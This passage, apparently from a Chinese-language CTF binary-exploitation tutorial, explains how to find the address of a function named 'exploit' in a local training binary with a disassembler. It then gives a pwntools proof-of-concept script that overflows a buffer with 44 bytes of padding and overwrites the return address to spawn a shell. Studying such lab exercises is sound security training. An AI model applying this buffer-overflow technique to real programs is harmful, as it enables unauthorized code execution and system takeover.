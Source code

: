 ![image-20241213183757318](pwn二进制漏洞/image-20241213183757318.png)	

```
disass exploit,查看exploit的函数入口内存地址。
```

![image-20241213190950548](pwn二进制漏洞/image-20241213190950548.png)	

```python
于是可以编写poc.py来实现这个漏洞，来执行exploit函数获得shell。
from pwn import *
p = process("./read") //启动一个本地进程运行这个read二进制文件。
offset = 0x28 + 0x4 //计算缓冲区溢出偏移量
payload = b'a'*offset + p32(0x080491b6) //前44B填充a,后面p32把其转换为小端32位内存地址。
p.sendline(payload) //使用sendline发送这个payload.
p.interactive() //启动与目标程序的交互
```

